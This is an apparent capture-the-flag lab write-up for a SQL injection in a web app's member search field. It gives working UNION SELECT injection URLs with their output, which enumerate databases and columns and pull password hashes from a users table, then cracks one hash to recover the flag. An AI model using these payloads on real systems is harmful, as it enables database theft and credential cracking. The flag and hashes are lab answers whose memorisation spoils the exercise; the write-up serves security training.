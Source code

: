 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql injection

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting current database name and listing all databases

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

#### result

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

### getting a list of tables in current database

```

http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

```

which shows that the database has a table called users

### listing all column names and types

```

http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

```

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

### getting the password information

```

http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

```

#### result

```

ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

You can see that it gives us this helpful part that says "Decrypt this password -> then lower all the char. Sh256 on it and it's good"
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.  
Which gives us the original string "FortyTwo"  
lower all characters and as per the instructions Sh-256 of fortytwo is: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)
